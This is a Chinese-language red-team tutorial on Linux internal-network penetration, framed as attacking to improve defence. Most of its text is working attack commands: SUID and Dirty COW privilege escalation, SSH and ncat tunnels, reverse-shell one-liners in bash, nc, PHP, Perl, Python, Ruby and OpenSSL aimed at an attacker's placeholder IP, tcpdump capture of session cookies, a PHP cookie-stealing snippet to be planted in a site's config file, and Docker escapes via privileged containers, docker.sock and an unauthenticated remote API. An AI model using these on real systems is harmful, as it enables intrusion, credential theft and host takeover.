# 红蓝对抗之 Linux 内网渗透

# 前言

上篇[内网渗透](https://mp.weixin.qq.com/s/OGiDm3IHBP3_g0AOIHGCKA)(附录 1) 主要讲的是 Windows 这块，最近知识星球“腾讯安平密友圈”提到了一个问题**“为什么内网渗透偏向于 Windows”**，笔者也在下面进行了相关回复，除了传统的信息收集、弱口令以外，Linux 内网渗透也有很多可玩性。  


在服务器方面，Linux 由于开源、稳定、灵活、社区支持等因素，市场占有率远比 Windows 大，并且广大业务逐步上云使用 docker 容器等原因，所以 Linux 渗透攻击也是蓝军极为常见和必备的技能。

本文将以蓝军攻击视角，介绍常用的 Linux 内网渗透的手法，包括提权、隧道、反弹 shell、登录态、云安全和工具化，主要让大家了解内网渗透的手法和危害，以攻促防，希望能给安全建设带来帮助。

# 提权

Linux 不像 Windows 有那么多的提权 EXP，不会动不动就出现各种烂土豆系列，因此 Linux 提权常常成为一个难点。本章将介绍一些 Linux 上的提权手法。

## 利用内核漏洞进行提权

脏牛漏洞 (CVE-2016-5195) 是一个影响 2007 年 -2016 年长达 9 年发行的 Linux 系统的提权漏洞，恶意用户可以利用条件竞争获取 ROOT 权限。  
这里以写文件的手段来演示下该漏洞利用方法。  
本次漏洞环境如下：  
  
根目录下存在 test.txt：  
  
普通用户只能查看而不能修改：  
  
利用 exp 成功写入文件到只读文件中：  
  
附上该漏洞的 POC 集合地址：  
[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

笔者不太喜欢用此类 EXP，包括 Window 上的溢出类漏洞，因为此类漏洞有可能会导致系统崩掉，对于客户环境、敏感系统还是慎用。  
针对此类漏洞有些同学会有如下疑问：  
Q:为什么我执行以后会卡死？  
A:尝试使用反弹的方式，即交互式/半交互式的方法进行。

## 文件权限配置不当

当某个进程启动权限为 ROOT，对应文件编辑权限为普通用户时，我们可以利用该问题点进行提权。  
[pspy](https://github.com/DominicBreuker/pspy)(附录 2) 工具提供了普通用户权限即可监听进程信息，该工具原理很简单，循环遍历/proc 下的值来获取进程参数信息：  
  
如果我们设置 hidepid，该工具就会失效，如：

```plain
mount -o remount,rw,hidepid=2 /proc
```

该工具就什么输出都不会有，或者只有问号：  
  
  
这里我们使用 pspy 作为辅助演示 (当没设置 hidepid 时)。  
前期准备中，首先我们创建一个 while 循环，并使用 ROOT 用户循环执行/tmp/1.sh。然后当我们获取 USER 普通用户权限时，利用 pspy 可以监控到 ROOT 用户在持续执行/tmp/1.sh：  
  
尝试查看/tmp/1.sh 文件内容和权限，发现我们当前用户具备读写权限：  
  
我们尝试替换文件内容，查看是否会以 ROOT 权限启动其中命令：  
  
发现成功提权，以 ROOT 权限启动自定义命令：  


## 利用 SUID 程序进行提权

当程序运行需要高权限，但是用户不具备高权限时，这时则可以给文件设置 SUID，使得用户在执行文件时将以文件所有者的权限来运行文件，而不是运行者本身权限。  
首先/tmp/test 存在如下文件：  
  
正常执行结果如下：  
  
当设置 SUID 时，执行结果如下：

```plain
chmod +s ./test
```

  
  
执行结果依然是当前用户，为何？  
这是因为在[高版本 Linux](https://linux.die.net/man/1/bash)(附录 3) 中，如果启动 bash 的的 Effective UID 与 Real UID 不相同，而且没有使用-p 参数，则 bash 会将 Effective UID 还原成 Real UID。即如果就算有 S 位，但没有使用-p 参数，则最终执行的权限依然是当前用户的权限。  
可以使用[setuid](https://man7.org/Linux/man-pages/man2/setuid.2.html)(附录 4) 使得 bash 当前 Effective UID 和 Real UID 相同来达到提权效果：

1.  `#include<stdlib.h>`
2.  `main()`
3.  `{`
4.  `setuid(0);`
5.  `system("whoami > /tmp/test.txt");`
6.  `}`

  
我们可以使用如下命令来寻找服务器上设置了 SUID 的应用程序：

```javascript
find / -perm -u=s -type f 2>/dev/null
```

  
下面列举几个常见的设置了 SUID 的应用程序提权手段。

-   nmap
    
    1.  `nmap --interactive`
    2.  `!sh`
    
-   find
    
    ```python
    find . -type f -exec /bin/bash \;
    ```
    
-   awk
    
    ```sql
    awk 'BEGIN {system("/bin/bash")}'
    ```
    
-   strace
    
    ```coffeescript
    strace -o/dev/null /bin/bash
    ```
    

# 隧道

Linux 上可以利用自带和第三方工具进行隧道开启，利用隧道，我们可以建立 Socks 连接、端口转发等操作。

## SSH

Linux 上耳熟能详的就是 SSH 了，我们来看下 SSH 常用的开启隧道的命令。

-   场景 a：在控制 A 机器时，利用 socks 代理进入 A 机器所在内网
    
    1.  `ssh -qTfnN -D 1111 [root@1.1.1](mailto:root@1.1.1).1`
    
    输入 A 机器密码，本地利用 proxychains 等类似工具连接本地的 1111 端口的 sock5 连接即可代理 A 机器的网络。

-   场景 b：如果控制 A、B 机器，A 能够访问 B，且能出网，B 能够访问 C，但不能出网，A 不能访问 C  
    A 机器执行：
    
    1.  `ssh -CNfg -L 2121:CIP:21 root[@BIP](https://github.com/BIP "@BIP")`
    
    输入 BIP 机器密码，访问 A 的 2121 端口即是访问 CIP 的 21 端口。

-   场景 c：控制 A 机器，A 能够访问 B  
    A 机器执行：
    
    1.  `ssh -CNfg -R 2121:BIP:21 root[@hackervps](https://github.com/hackervps "@hackervps")`
    
    输入黑客 VPS 密码，访问黑客 VPS 的 2121 端口即是访问 BIP 的 21 端口。

## nc/ncat

服务端执行监听命令：

```css
ncat --sh-exec "ncat 127.0.0.1 22" -l 80 --keep-open
```

客户端连接服务端的 80 端口即可 SSH 连接：

```plain
SSH root@serverip -p 80
```

## portmap

服务端执行：

```css
portmap -m 1 -p1 80 -h2 127.0.0.1 -p2 22
```

客户端连接服务端的 80 端口即可 SSH 连接：

```plain
SSH root@serverip -p 80
```

## portfw

服务端执行：

```css
tcpfwd 0.0.0.0:443 127.0.0.1:22
```

客户端连接服务端的 443 端口即可 SSH 连接：

```plain
SSH root@serverip -p 443
```

# 反弹 shell

Linux 上也存在一些自带命令/工具，来进行反弹 shell 得到一个 (非) 交互式 shell。  
下述命令中的 yourip 为攻击者监听的 ip；yourport 为攻击者监听的端口。

## bash

```plain
bash -c 'exec bash -i &>/dev/tcp/yourip/yourport <&1'
```

## netcat

```plain
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourip yourport >/tmp/f
```

## php

```plain
php -r '$sock=fsockopen(getenv("yourip"),getenv("yourport"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

## perl

```plain
perl -e 'use Socket;$i="$ENV{yourip}";$p=$ENV{yourport};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

1.  `python -c 'import sys,socket,os,pty;s=socket.socket()`
2.    `s.connect((os.getenv("yourip"),int(os.getenv("yourport"))))`
3.    `[os.dup2(s.fileno(),fd) for fd in (0,1,2)]`
4.    `pty.spawn("/bin/sh")'`

## ruby

```plain
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["yourip"],ENV["yourport"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## telnet

```ruby
TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1337 0<$TF | /bin/sh 1>$TF
```

## openssl 加密

服务端生成证书：

```plain
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

服务端监听：

```css
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

受控端执行：

```ruby
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect yourip:yourport > /tmp/s; rm /tmp/s
```

## 完全交互式 shell

attack 端执行：

```plain
stty -echo raw; nc -lp 1337; stty sane
```

victim 端执行：

```plain
nc -c '/bin/bash -c "script /dev/null"' yourip 1337
```

现在 ctrl c 也不会退出：  


# 登录态

现在越来越多的系统接入 SSO、零信任，用户友好度提升了，但是也伴随了大量风险，比如如果单点故障了怎么办。其他安全风险呢？如果我们拿下其中一台可信服务器的权限，是否也伴随着未做隔离的站点也沦为了能快速拿权限的攻击目标？

## tcpdump

tcpdump 是一款网络抓包的程序，在 SSO、零信任的场景中，我们可以利用它来获取用户的登录态、Cookie 等敏感信息，然后利用这些信息去登录其他未做隔离的站点。  
下面是抓取 http 数据包的命令示例：

```plain
tcpdump -i eth1 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420 or tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 网站文件

除了使用抓包工具去进行敏感信息的抓取，我们还可以在网站本身去做一下手脚。  
比如网站是 php 的，那我们可以在配置文件文件中，插入恶意代码，获取 Cookie 等信息，下面是代码示例：

1.  `<?php`
2.  `$fp = fopen('/var/www/html/site/cookies.txt', 'a');`
3.  `fwrite($fp,json_encode($_COOKIE).PHP_EOL);`
4.  `fclose($fp);`

# 云安全

现在越来越多的业务开始上云，使用容器部署业务，那随之而来的也是对应的安全风险，包括不限于未授权访问、命令执行等漏洞。

## docker

### 判断是否是 docker 环境

-   进程数很少，比如少于 10 条  
    
-   常见的命令却没有，如没有 wget 命令  
    
-   存在/.dockerenv 文件  
    
-   /proc/1/cgroup内包含”docker”字符串  
    

### 逃逸

逃逸是指我们在容器中逃逸到宿主机中。

#### 特权容器

当容器是以特权启动时，docker 将允许容器访问宿主机上的所有设备。  
如下容器是进行特权启动 (docker run —privileged) 的，我们可以把宿主机磁盘挂载进容器里，然后进行相关的逃逸操作，包括不限于更改计划任务、文件。

1.  `fdisk -l|grep /dev/vda1`
2.  `mkdir /test`
3.  `mount /dev/vda1 /test`
4.  `chroot /test`



#### Docker Socket

/var/run/docker.sock文件是Docker守护进程默认监听的Unix域套接字，容器中的进程可以通过该文件与docker守护进程进行通信。  
  
当攻击者可控的容器内挂载了该文件，我们也可以对其进行逃逸。  
首先我们用如下命令创建一个特权测试容器：

```coffeescript
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock  d6e46aa2470d
```

比如我们控制了上述容器，并发现其挂载了 docker.sock：

  
那么我们可以利用/var/run/docker.sock 创建特权容器（附录 5）：

1.  `docker -H unix:///var/run/docker.sock pull alpine:latest`
2.  `docker -H unix:///var/run/docker.sock run -d -it --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest`
3.  `docker -H unix:///var/run/docker.sock start rshell`
4.  `docker -H unix:///var/run/docker.sock exec -it rshell /bin/sh`

最终发现逃逸成功：  


#### 脏牛

利用漏洞章节处的脏牛漏洞提权也可以达到逃逸目的，这里不重复演示。  
POC 地址：  
[https://github.com/scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)

### 未授权访问

当默认端口为 2375 的 Docker Remote API 对外未授权开放时，攻击者可以利用该漏洞进行 getshell。  
未授权测试过程：  
获取所有 images 列表：

```plain
curl http://host:2375/containers/json
```

获取运行中的容器：

```plain
docker -H tcp://host:2375 ps
```

getshell 过程：  
获取镜像：

```plain
docker -H tcp://host:2375 images
```

根据镜像创建容器，把宿主机根目录挂载到容器中：

```ruby
docker -H tcp://host:2375 run -it -v /:/mnt/ image_id /bin/bash
```

创建容器后没自动进入容器的话，可以利用 ps 查看创建容器的 CONTAINER ID：

```plain
docker -H tcp://host:2375 ps
```

然后进入容器：

```plain
docker -H tcp://host:2375 exec -it CONTAINERID sh
```

默认执行命令只能看到容器内的：  
  
进入到挂载进来的磁盘中，并切换根目录，则可以看到宿主机进程：

```plain
chroot /mnt sh
```

